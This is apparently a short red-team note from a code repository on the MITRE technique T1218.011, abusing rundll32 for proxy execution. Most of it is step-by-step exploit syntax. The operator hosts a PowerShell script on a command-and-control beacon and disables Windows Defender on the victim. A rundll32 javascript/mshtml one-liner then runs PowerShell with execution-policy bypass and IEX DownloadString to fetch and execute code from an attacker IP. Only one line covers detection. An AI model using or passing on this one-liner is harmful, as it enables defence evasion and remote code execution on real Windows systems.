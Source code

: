 # [Rundll32](https://attack.mitre.org/techniques/T1218/011/)

## Exploit syntax:

```powershell 
1. Create a powershell script and save it to /tmp/christBeaver.txt

2. In posh run:
    ```
    add-hosted-file
    
    /tmp/christBeaver.txt

    /text

    text/html
    
    N
    ```

3. Ensure Windows Defender Live Protection is turned off on the victim machine

4. On your beacon, add the malicious IP and run:
    ```
    sharpps rundll32.exe 'javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString(''http://<IP address>/text'');")'
    ```

## Detection Technique:
* Investigate uses of rundll32 to start non typical processes such as cmd/powershell or to access non typical dlls.

---

## Resource
* https://lolbas-project.github.io/lolbas/Binaries/Rundll32/1`